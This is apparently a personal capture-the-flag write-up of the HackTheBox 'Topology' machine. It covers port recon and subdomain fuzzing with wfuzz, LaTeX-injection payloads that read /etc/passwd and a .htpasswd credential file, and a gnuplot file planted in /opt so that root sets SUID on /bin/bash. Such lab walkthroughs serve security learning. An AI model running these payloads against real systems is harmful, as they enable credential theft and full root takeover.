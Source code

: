 # Topology

### Recon

- SSH port 22 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
- HTTP port 80 Apache httpd 2.4.41 ((Ubuntu))

dabrahams - Sysadmin
vdaisley - Dev
lklein - Head of group

### Exploitation

Tried hydra with the names of the portraits but the connection was refused

Tried a few LaTeX queries but no luck.

Needed help here, [found this walkthrough](https://rouvin.gitbook.io/ibreakstuff/writeups/hackthebox/easy/topology)

LaTeX equation generator -> read single line of files

```
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

Fuzz topology.htb domain to find dev subdomain (change /etc/hosts)

`wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.topology.htb" --hc=200 -u http://topology.htb`

This is a HTTP sign in, meaning we can probably find the credentials in a .htpasswd file somewhere. Also, it 
coincides with the one-line LFI that we have. However, the same command does not work with the 
/var/www/dev/.htpasswd file, which is definitely where the password hash is stored.

In this case, what we can do is try to use other commands, like \lstinputlisting. However, this payload 
doesn't work:

`\lstinputlisting{/var/www/dev/.htpasswd}`

https://tex.stackexchange.com/questions/410863/what-are-the-differences-between-and

It doesn't work (as I've learnt) because the machine asks for LaTeX inline math mode. There are different 
modes for LaTeX present, and they would parse characters differently. If we use '$' signs, we can force the 
machine to process our query by switching mode for it. 

If we use `\\lstinputlisting{/var/www/dev/.htpasswd}` instead, we see that it processes it as text

So by using `$\lstinputlisting{/var/www/dev/.htpasswd}$`, it would be processed as an expression (similar to 
$() in bash) and loads the hash:


Credentials found in .htpasswd with LaTeX LFI for dev.topology.htb portal and ssh access to the machine

`$\lstinputlisting{/var/www/dev/.htpasswd`

gnuplot is present in /opt which allows system command execution and although we don't have read access we 
have write access to the directory

pspy64 shows root running gnuplot on the directory so if we add another .plt file we can gain root access

`echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/root.plt`


